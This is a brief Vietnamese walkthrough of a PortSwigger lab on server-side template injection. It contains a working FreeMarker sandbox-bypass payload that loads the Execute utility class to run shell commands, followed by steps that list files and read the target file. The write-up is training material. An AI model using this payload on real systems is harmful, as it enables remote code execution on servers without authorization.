


# Server-side template injection in a sandboxed environment
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment

## Phân tích
- Login với default user, view detail và edit template, thử với các payload

- Ta thấy giá trị payload ta đưa vào đã evaluated. Nghĩa là template có thể bị SSTI
- Giờ đi check template engine, ta thử với error message bằng cách đưa vào invalid value

- Template engine đang dùng là FreeMarker.
- Thử payload để execute code

- Thấy error là ko thể execute do security issue. Thử với paylaod `Sandbox bypass` từ Hacktricks
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

- Do `article` object ko tồn tại, ta có `product` object

- Check `ls` với `pwd` file cần thiết rồi `cat` giá trị

- Submit
